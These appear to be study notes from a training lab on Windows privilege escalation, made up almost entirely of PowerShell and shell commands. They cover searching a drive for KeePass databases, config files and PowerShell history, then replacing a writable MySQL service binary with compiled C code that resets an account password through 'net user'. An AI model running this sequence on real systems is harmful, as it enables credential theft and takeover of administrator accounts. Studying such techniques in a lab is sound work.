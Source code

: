 ```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

runas /user:backupadmin cmd

runas /user:richmond cmd

C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt


Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}


```

|MASK|PERMISSIONS|
|---|---|
|F|Full access 完全访问权限|
|M|Modify access 修改访问权限|
|RX|Read and execute access  <br>读取和执行访问权限|
|R|Read-only access 只读访问|
|W|Write-only access 只写访问|

```powershell
icacls "C:\xampp\apache\bin\httpd.exe"
```

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user daveadmin password123!");
  
  return 0;
}
```

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

whoami /priv

shutdown /r /t 0

Get-LocalGroupMember administrators


```